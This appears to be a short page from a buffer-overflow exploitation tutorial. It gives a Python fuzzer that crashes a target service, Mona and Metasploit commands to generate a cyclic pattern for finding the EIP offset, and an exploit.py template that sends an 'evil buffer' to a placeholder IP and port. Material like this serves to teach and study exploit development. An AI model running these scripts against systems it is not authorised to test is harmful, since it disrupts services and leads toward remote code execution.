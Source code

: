 **fuzzer2.py**:
```python
import socket

IP = "<IP>"
PORT = <PORT>

payload = 1000 * "A"

try: 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP,PORT))
    s.send(payload)
    print "[+] " + str(len(payload)) + " Bytes Sent"
except:
    print "[-] Crashed"
```

1. Modify IP and PORT in the scripts.
2. Run the script until the application crashes with EIP = 41414141 (hex for "AAAA").

### Replicating the Crash and Controlling EIP

1. Generate a cyclic pattern to find the offset:
```
# Using Mona
!mona pc <SIZE>

# Using Metasploit
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <SIZE>
```

2. Update exploit.py with the pattern:
```python
import socket

ip = "<IP>"
port = <PORT>

prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "<CYCLIC_PATTERN>"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```
